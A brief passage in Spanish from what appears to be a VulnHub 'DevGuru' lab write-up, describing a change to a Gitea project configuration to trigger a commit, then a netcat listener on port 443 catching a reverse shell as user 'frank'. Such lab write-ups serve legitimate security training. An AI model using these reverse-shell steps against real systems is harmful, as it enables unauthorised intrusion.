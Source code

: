 Una vez realizado este paso, debemos modificar algún archivo de configuración del proyecto para ejecutar el commit.

![devguru5](/assets/img/commons/vulnhub/devguru/devguru5.png){: .center-image }

Guardamos los cambios.

Nos ponemos en escucha y obtenemos la shell.

```bash
❯ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.59] 49776
bash: cannot set terminal process group (775): Inappropriate ioctl for device
bash: no job control in this shell
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ 
```

## Escalación de privilegios

---
